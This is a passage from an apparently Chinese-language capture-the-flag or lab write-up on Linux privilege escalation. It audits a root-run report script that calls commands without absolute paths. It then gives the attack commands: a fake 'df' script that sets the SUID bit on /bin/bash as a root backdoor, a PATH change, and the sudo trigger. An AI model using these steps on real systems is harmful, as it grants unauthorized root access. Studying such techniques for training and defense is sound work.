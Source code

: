 ## **2. PATH环境变量劫持**

接下来，我们审计该脚本的源代码，以分析是否存在可利用的缺陷。

```bash
echo@Sysadmin:~$ cat /usr/local/bin/system-info.sh
#!/bin/bash
#===================================
# Daily System Info Report
#===================================
echo "Starting daily system information collection at $(date)"
echo "------------------------------------------------------"
echo "Checking disk usage..."
df -h
echo "Checking log directory..."
ls -lh /var/log/
find /var/log/ -type f -name "*.gz" -mtime +30 -exec rm {} \;
echo "Checking critical services..."
systemctl is-active sshd
systemctl is-active cron
echo "Collecting CPU and memory information..."
cat /proc/cpuinfo
free -m
echo "------------------------------------------------------"
echo "Report complete at $(date)"
```

代码审计发现，脚本中调用的 `df`, `ls`, `find`, `systemctl`, `cat`, `free` 等一系列命令均未使用其绝对路径（如 `/bin/df`），而是直接使用相对路径。结合前述的 `!env_reset` 配置，一个经典的**PATH环境变量劫持**攻击路径就此形成。当脚本以 `root` 权限运行时，它会依据 `echo` 用户自定义的 `PATH` 环境变量来查找这些命令。

## **3. 提权至Root**

**攻击步骤：**

1. 首先，在 `echo` 用户的家目录下创建一个名为 `df` 的恶意脚本。我们的目标是利用 `root` 权限为 `/bin/bash` 程序赋予SUID权限位，从而创建一个 "root shell后门"。

   ```bash
   echo@Sysadmin:~$ echo '#!/bin/bash' > df
   echo@Sysadmin:~$ echo 'chmod +s /bin/bash' >> df
   echo@Sysadmin:~$ chmod +x df
   ```

2. 接着，修改 `PATH` 环境变量，将当前目录（`.`）添加到其最前端。这样一来，当系统查找 `df` 命令时，会优先在我们创建的恶意脚本所在目录中找到并执行它。

   ```bash
   echo@Sysadmin:~$ export PATH=.:$PATH
   ```

3. 万事俱备，以 `root` 权限执行目标脚本，触发我们的Payload。

   ```bash
   echo@Sysadmin:~$ sudo -u root /usr/local/bin/system-info.sh
   ```
